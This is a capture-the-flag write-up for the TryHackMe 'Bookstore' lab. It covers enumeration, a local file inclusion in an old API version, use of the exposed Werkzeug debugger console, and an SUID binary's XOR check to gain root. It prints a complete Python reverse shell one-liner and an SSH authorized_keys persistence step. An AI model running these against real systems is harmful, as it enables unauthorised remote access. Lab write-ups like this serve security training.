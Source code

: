<h1>Writeup for Bookstore room on <a href='https://tryhackme.com'>TryHackMe</a></h1>

<h3>User Flag</h3>
Enumerate the IP with nmap
<br></br><img src='Screenshot (72).png'/><br></br>
We can see port 5000 which seems to be running a python server, we'll get back to that in a minute.
Let's enumerate the webserver first. There is nothing special about the webserver as in general. Even the login feature is nothing but a dud but if you look at the source code of the <b>login.html</b>,there is a hint.
<br></br><img src='Screenshot (73).png'/><br></br>
The debugger pin is in sid's bash history which would be <b>.bash_history</b><br></br>
Now we move to port 5000.
It is a REST Api and if you visit <b>/api</b> you can see all the available endpoints.
I tried to read the bash file with id, author and published query parameter but they did not work.
So I went back to the website and started the enumeration again and this time in /assests/js/api.js I saw the following comment
<h5>//the previous version of the api had a paramter which lead to local file inclusion vulnerability, glad we now have the new version which is secure.</h5>
This indicates that we need to look for a parameter in the previous version. So now we need to change the version from v2 to v1 and look for a parameter.
<br></br>I used <b><a href='https://github.com/ffuf/ffuf'>FFUF</a></b> for this.
<br></br><img src='Screenshot (74).png'/><br></br>
We have the show parameter which we can use to get the pin. Now we can use the pin at <b>http://{MACHINE IP}:5000/console</b> (I was not aware of what Werkzeug was so I had to manually enumerate for the /console).
When you enter the pin you can access the console which executes python code.We can use that to get the shell, I used the python reverse shell for this but yuo are free to use any other shell
<h5>'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{YOUR IP",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")</h5>
WWith this we get the shell as user. Improve the shell by adding your ssh public key(present at ~/.ssh/id_rsa.pub) to <b>.ssh/authorized_keys</b> of the user sid, you need to create the .ssh folder first.
<h5>echo 'YOUR PUBLIC SSH KEY' > ~/.ssh/authorized_keys</h5>
After adding the keys you can login with your private key. You can create ssh keys with <b>ssh-keygen</b>, read more about it <a href='https://www.ssh.com/ssh/keygen/'>here</a>

<h3>Root</h3>
We can see a tryharder binary which has 's' bit set which means that we can run the binary as root. If you run the binary we can see that it asks us for a number and exits giving the message 'Incorrect Try Harder'. 
Lets copy the binary to our machine(Run the below command in your machine).
<h5>scp -i ~/.ssh/id_rsa sid@{MACHINE IP}:/home/sid/tryharder .</h5>
Now that we have the binary on our machine we can analyse the binary now.
Running strings against the binary shows us something very interesting.
<br></br><img src='Screenshot (76).png'/><br></br>
bash is running with -p to preserve the privileges of the root. Now we just need to find the magical number it is asking us. I opened the binary in ghidra and saw that our input was XORed with two values and then compared with a value, if it was equal it would run the bash command
<br></br><img src='Screenshot (77).png'/><br></br>
We can see that our input is being stored in <b>local_lc</b> variable and it is being XORed with hex value,  0x1116, and <b>local_l8</b>  varaiable with value, 0x5db3.
<br></br>
You can convert the hex values to decimal in Python Console.
<br></br><img src='Screenshot (78).png'/><br></br>

In XOR, if a ^ b ^ c = d then b ^ c ^ d = a (^ is xor. Also 0 ^ a = a and a ^ a = 0, you can use this property to understand the above statement. In the first equation XOR both sides with 'a' then the equation becomes b ^ c = d ^ a since a ^ a is 0 and anything XORed with 0 is the value itself. Now if you XOR both side with 'd' we will get b ^ c ^ d = a).
Now using this we will do, 23987 ^ 4374 ^ 1573724660 (1573724660 is the decimal value of 0x5dcd21f4 which is the hex value used in the comparision).
We will get the value we need, Now run the binary again, enter the value you get and that will give the root shell
